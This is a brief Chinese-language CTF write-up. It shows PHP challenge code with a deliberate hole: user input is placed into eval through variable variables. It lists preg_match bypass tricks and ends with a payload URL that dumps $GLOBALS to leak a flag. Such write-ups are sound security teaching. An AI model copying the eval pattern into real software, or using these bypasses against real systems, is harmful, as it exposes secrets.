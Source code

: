 

```javascript
flag In the variable ! <?php  

error_reporting(0);
include "flag1.php";
highlight_file(__file__);
if(isset($_GET['args'])){
    $args = $_GET['args'];
    if(!preg_match("/^\w+$/",$args)){
        die("args error!");
    }
    eval("var_dump($$args);");
}
?>
```



一开始以为这个题是要绕过正则表达式。preg_match有三个方式可以绕过，在这里再复习一下

1.数组绕过

2.当正则表达式结尾含，/m,^,$时会匹配结尾

可以采用/n绕过

3.最大回溯绕过



但是此题的关键为：

```javascript
eval("var_dump($$args);");
```

$$args可以采用变量覆盖，题目提示flag in the variable

可采用全局变量：

- $GLOBALS

- $_SERVER

- $_GET

- $_POST

- $_FILES

- $_COOKIE

- $_SESSION

- $_REQUEST

- $_ENV

payload:http://123.206.87.240:8004/index1.php?args=GLOBALS